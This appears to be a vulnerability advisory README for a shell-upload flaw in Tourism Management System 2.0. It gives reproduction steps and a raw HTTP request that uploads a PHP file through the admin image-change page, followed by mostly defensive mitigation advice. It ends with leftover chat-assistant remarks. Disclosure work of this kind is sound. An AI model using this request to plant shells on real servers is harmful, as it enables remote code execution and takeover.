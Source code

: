 # Shell Upload Vulnerability in Tourism Management System 2.0

## Description

This repository highlights a **Shell Upload vulnerability** in **Tourism Management System 2.0**. The vulnerability allows an attacker to upload and execute arbitrary PHP shell scripts on the server, leading to **remote code execution** and **unauthorized access** to the system. This can result in the compromise of sensitive data and system functionality.

## Affected Version

- **Tourism Management System 2.0**

## Impact

Exploitation of this vulnerability can have serious consequences, including:

- **Remote Code Execution (RCE)**: Attackers can upload malicious PHP scripts and execute them on the server.
- **Unauthorized Access**: Attackers can gain unauthorized control over the system.
- **Data Compromise**: Sensitive information and system functionality can be exposed or manipulated.

## Steps to Reproduce

1. **Login to Admin Panel**: Use valid credentials to log in to the admin panel.
2. **Create Tour Package**: Navigate to the "Create Tour Package" section.
3. **Upload Malicious PHP File**: In the "Package Image Upload" field, upload a PHP file (e.g., `test.php`).
4. **Submit Form**: Fill in the necessary form fields and submit the package.
5. **Check Uploaded File**: After the upload is complete, verify that the PHP file has been uploaded and is executable.

## Example Request Data

Here is an example of the HTTP request used to upload the PHP file:

```http
POST /admin/change-image.php?imgid=3 HTTP/1.1
Host: 192.168.1.74
Connection: close
Content-Length: 307
Cache-Control: max-age=0
sec-ch-ua: "Not;A=Brand";v="99", "Brave";v="139", "Chromium";v="139"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://192.168.1.74
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZPFQDKk0hvosDupP
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.6
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.1.74/admin/change-image.php?imgid=3
Accept-Encoding: gzip, deflate
Cookie: ui_session=2986ad8c0a5b3df4d7028d5f3c06e936c68a16a9283ab6ef697744491a9f9d7497aca3add81903ee1c9841fe7d6195a22a4641dc4ccab5ddc917638bb655e1ff5; PHPSESSID=713r9ihcoks4p4se1isaia5u49

------WebKitFormBoundaryZPFQDKk0hvosDupP
Content-Disposition: form-data; name="packageimage"; filename="test.php"
Content-Type: application/html

------WebKitFormBoundaryZPFQDKk0hvosDupP
Content-Disposition: form-data; name="submit"

------WebKitFormBoundaryZPFQDKk0hvosDupP-- ```http

## Mitigation and Recommendations

To mitigate the **Shell Upload vulnerability** in the Tourism Management System 2.0 and prevent attackers from uploading and executing malicious files, consider implementing the following security measures:

### 1. **Restrict File Types**
   - Only allow file uploads for specific types of files that are required for the application. In this case, only image files (such as `.jpg`, `.png`, `.gif`) should be allowed.
   - **Validation on both client and server side**:
     - On the **client side**, ensure that the file type is validated before submission.
     - On the **server side**, check the file extension and MIME type of the uploaded file to ensure it is a valid image format and not an executable (e.g., `.php`, `.exe`).

### 2. **File Content Inspection**
   - Use content-based validation to ensure the uploaded file's content matches its extension and MIME type. For example, even if a file has a `.jpg` extension, its content might not be an image. Implement the following:
     - **Check MIME type**: Verify the MIME type returned by the `fileinfo()` function or a similar method.
     - **Check file signatures**: Use methods to inspect the file header and verify that it corresponds to the expected format (e.g., `magic bytes` for images).
     
### 3. **Disable PHP Execution in Uploaded Folders**
   - **Prevent script execution** in directories where user uploads are stored. This can be achieved by adding a `.htaccess` file (for Apache) or configuring your web server to prevent execution in certain directories.
     - Example for Apache:
       ```apache
       <Files *.php>
           Deny from all
       </Files>
       ```
     - Example for Nginx:
       ```nginx
       location ~* \.php$ {
           deny all;
       }
       ```

### 4. **Rename Uploaded Files**
   - Rename the uploaded files using a random string or UUID to avoid predictable file names. This will make it difficult for attackers to guess the names of uploaded files and potentially execute them.

### 5. **Limit File Upload Size**
   - Set limits on the size of files that can be uploaded. Large file uploads could be a sign of malicious activity, and limiting file sizes can reduce the risk of abuse.
   - Example: Set a maximum file size for uploads (e.g., 2MB for images).

### 6. **Use Web Application Firewalls (WAF)**
   - Implement a **WAF** to filter and monitor HTTP requests for malicious payloads. Many WAFs come with predefined rules to block common attacks, including file upload exploits.
   - WAFs like **Cloudflare**, **ModSecurity**, or **AWS WAF** can help block malicious file uploads in real-time.

### 7. **Enable Security Headers**
   - Ensure that proper security headers are set to protect against certain attacks:
     - **X-Content-Type-Options**: Prevents browsers from interpreting files as a different MIME type.
     - **Content-Security-Policy (CSP)**: Prevents the execution of inline scripts and loading of unauthorized resources.
     - **Strict-Transport-Security (HSTS)**: Forces clients to communicate with the server over HTTPS.

### 8. **Monitor and Audit File Uploads**
   - Regularly audit and log all file upload actions. Keep detailed logs of which files are uploaded, by whom, and any errors that occur during the upload process. Set up an alerting mechanism to notify administrators of any suspicious activity, such as the upload of executable files or files with unusual extensions.

### 9. **Conduct Regular Security Audits and Penetration Testing**
   - Conduct **regular vulnerability assessments**, security audits, and **penetration testing** to ensure your system is secure and that vulnerabilities like this are caught early.
   - Utilize automated vulnerability scanning tools as well as manual testing methods to identify potential weaknesses in the system.

### 10. **User Role Management**
   - **Limit the permissions** of users who can upload files. If file uploads are not necessary for all users, restrict access to only those who need it (e.g., administrators or trusted users).
   - Ensure that users cannot **upload files with administrative privileges** unless absolutely required for their role.

---

Implementing these measures will significantly reduce the risk of Shell Upload vulnerabilities and other file upload-related attacks. The goal is to make the system more resilient and protect it from unauthorized access or malicious exploitation.

### Key Points:
- The README provides a detailed explanation of the vulnerability, its impact, and how to reproduce the issue.
- It also includes recommended mitigations to help secure the system.
- I've formatted the example HTTP request to make it easy for users to understand the exact steps.

Feel free to adjust any sections as needed!

